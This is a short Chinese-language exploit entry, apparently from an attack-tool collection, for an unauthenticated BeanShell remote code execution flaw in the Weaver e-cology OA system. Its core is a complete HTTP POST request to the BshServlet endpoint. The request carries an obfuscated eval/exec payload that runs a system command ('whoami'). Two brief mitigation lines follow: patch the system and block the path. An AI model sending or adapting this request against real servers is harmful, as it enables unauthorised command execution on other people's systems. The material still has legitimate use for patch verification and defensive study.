 ```yaml
---
title: '泛微OA Bsh 远程代码执行漏洞'
date: Thu, 17 Sep 2020 07:40:43 +0000
draft: false
tags: ['白阁-武器库']
---
```


#### 详情

泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重

#### 利用方式

```
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw 
```防护方法 1.及时更新泛微补丁 2.拦截/weaver/bsh.servlet.BshServlet目录的访问